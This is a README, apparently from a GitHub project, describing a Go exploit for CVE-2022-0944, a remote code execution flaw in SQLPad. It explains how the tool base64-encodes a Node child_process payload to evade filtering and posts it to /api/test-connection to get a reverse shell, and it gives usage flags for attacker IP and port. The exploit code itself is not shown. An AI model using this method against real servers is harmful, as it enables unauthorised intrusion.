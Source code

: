 # CVE-2022-0944 RCE Exploit in Go

This project is a Go implementation of an exploit for CVE-2022-0944. It demonstrates how to leverage a Remote Code Execution (RCE) vulnerability in SQLPad by sending a specially crafted payload to execute arbitrary commands on the server.

## Features
- Base64 encoding of the payload to evade simple detection mechanisms.
- Sending an HTTP POST request to the target URL with the exploit payload.
- Simple and modular code structure for easy customization.

## Prerequisites
- Go 1.16 or later installed on your machine.
- A vulnerable instance of SQLPad to test against.
- An attacker machine with a listener set up to capture the reverse shell.

## Usage

### Compile and Run

1. Clone the repository (if applicable):
   ```bash
   git clone <repository_url>
   cd <repository_folder>
   ```
2. Run the script directly using go run:
    ```bash
    go run exploit.go -u <root_url> -i <attacker_ip> -p <attacker_port>
    ```
    Replace <root_url>, <attacker_ip>, and <attacker_port> with the appropriate values:

    - -u: The root URL of the SQLPad application (e.g., http://example.com).
    - -i: The IP address of the attacker's machine.
    - -p: The port on the attacker's machine to listen for the reverse shell.

## Explanation
- Base64 Encoding: The payload is encoded using Base64 to bypass basic input filtering mechanisms.
- Payload Construction: The child_process module in Node.js is used to execute a bash command that decodes the Base64 payload and then runs it.
- HTTP POST Request: The exploit payload is sent via an HTTP POST request to the /api/test-connection endpoint of the SQLPad application.

## Disclaimer
This code is provided for educational purposes only. Use it ethically and responsibly. The authors do not condone illegal or unethical activities. Only use this exploit on systems you own or have explicit permission to test.

## Resources
- https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
- https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/blob/main/exploit.py
- https://github.com/toneillcodes/CVE-2022-0944/blob/main/poc-cve-2022-0944.py